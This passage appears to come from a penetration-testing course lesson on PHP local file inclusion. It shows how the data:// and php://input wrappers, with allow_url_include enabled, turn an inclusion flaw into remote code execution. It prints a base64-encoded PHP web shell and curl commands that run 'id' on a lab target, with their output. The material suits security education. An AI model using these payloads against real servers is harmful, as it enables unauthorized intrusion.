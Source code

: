 Excellent! We see that we have this option enabled, so we can use the `data` wrapper. Knowing how to check for the `allow_url_include` option can be very important, as `this option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack, as we'll see next. It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example.

**Remote Code Execution**

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

```shell-session
root@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

![](https://academy.hackthebox.com/storage/modules/23/data\_wrapper\_id.png)

We may also use cURL for the same attack, as follows:

```shell-session
root@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

### Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```shell-session
root@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
